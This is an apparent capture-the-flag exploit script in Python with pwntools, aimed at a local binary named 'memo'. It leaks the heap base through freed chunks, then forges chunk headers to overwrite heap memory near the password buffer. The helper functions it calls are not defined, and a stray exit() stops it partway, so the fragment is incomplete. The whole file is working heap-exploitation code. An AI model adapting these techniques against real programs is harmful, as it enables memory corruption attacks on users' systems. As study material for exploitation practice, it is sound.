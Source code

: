 ```python

target = "./memo"

p = process(target)
e = ELF(target)

dbg_heap = 0x603000
addr_name = 0x602a20
addr_pass = 0x602a40
addr_msg = 0x602a70
got_libc_main = 0x601fb0
addr_cur_idx = 0x602a00

print p.recv()
p.sendline("hackability")
print p.recv()
p.sendline("y")
print p.recv()

payload = ""
payload += "A\x0a" + "\x00"*6 + p64(0x31)
payload += p64(0) * 2
payload += "\xf0" # size of idx 0
p.sendline(payload)
print p.recv()

fn_leave(0, 0x20, "A"*4)
fn_leave(1, 0x20, "B"*4)
fn_leave(2, 0x20, "C"*4)

fn_free(2)
fn_free(1)
fn_free(0)

fn_leave(0, 0x20, "")
recv = fn_view(0).split("\x0a")[1]
base_heap = u64(("\x00" + recv).ljust(8, "\x00"))

print "[*] heap base : {}".format(hex(base_heap))

fn_free(0)

payload = ""
payload += p64(0) * 5 + p64(0x31)
payload += p64(addr_pass)
fn_leave(0, 0x80, payload)

fn_leak(base_heap, 0x80, "heap [0x603000]")
exit()

fn_leave(1, 0x20, "D"*8)
fn_leave(0, 0x20, "E"*8) # will place on password

payload = ""
payload += "A\x0a" + "\x00"*6 + p64(0x31)
payload += p64(0)*2
payload += "\xf0"
fn_chg_pw("A", "hackability", payload)

fn_leak(addr_name, 0x60, str(hex(addr_name)))

payload = ""
payload += "A\x0a" + "\x00"*6 + p64(0x31)
```